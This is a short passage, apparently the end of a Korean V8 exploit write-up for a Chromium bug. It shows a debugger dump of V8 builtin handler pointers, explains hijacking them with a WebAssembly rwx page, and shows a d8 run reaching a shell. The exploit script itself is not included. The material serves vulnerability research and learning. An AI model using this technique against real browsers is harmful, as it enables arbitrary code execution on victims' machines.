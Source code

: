 ```bash
0x000029024a482228│+0x0228: 0x00007ffff5fdfec0  →  <Builtins_I32PairToBigInt+0> int3 
0x000029024a482230│+0x0230: 0x90660000000225ff
0x000029024a482238│+0x0238: 0x00007ffff5fdfce0  →  <Builtins_I64ToBigInt+0> push rbp
0x000029024a482240│+0x0240: 0x90660000000225ff
0x000029024a482248│+0x0248: 0x00007ffff5fbb4e0  →  <Builtins_RecordWrite+0> push rbp
0x000029024a482250│+0x0250: 0x90660000000225ff
0x000029024a482258│+0x0258: 0x00007ffff5fdbf60  →  <Builtins_ToNumber+0> push rbp
```

이런 핸들러들이 쌓여있는데 여기를 내가 원하는 `rwx`로 덮어버리면 웹어셈 코드에서 해당 에러가 났을 때 그쪽으로 뛴다.

```bash
임 ~/hdd/v8/v8/out/x64.release ./d8 ~/Workspace/b.js                                                                                                73f88b5f69
yoff 11
WASM start
offset 51
wasm_instance_addr 8211ed5
rwx 115abb56b000
$ id
uid=1000(wwwlk) gid=1000(wwwlk) groups=1000(wwwlk),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),133(docker)
$ pwd
/hdd/v8/v8/out/x64.release
```

# reference

[https://bugs.chromium.org/p/chromium/issues/detail?id=1051017](https://bugs.chromium.org/p/chromium/issues/detail?id=1051017)

[https://lordofpwn.kr/cve-2019-8506-javascriptcore-exploit/](https://lordofpwn.kr/cve-2019-8506-javascriptcore-exploit/)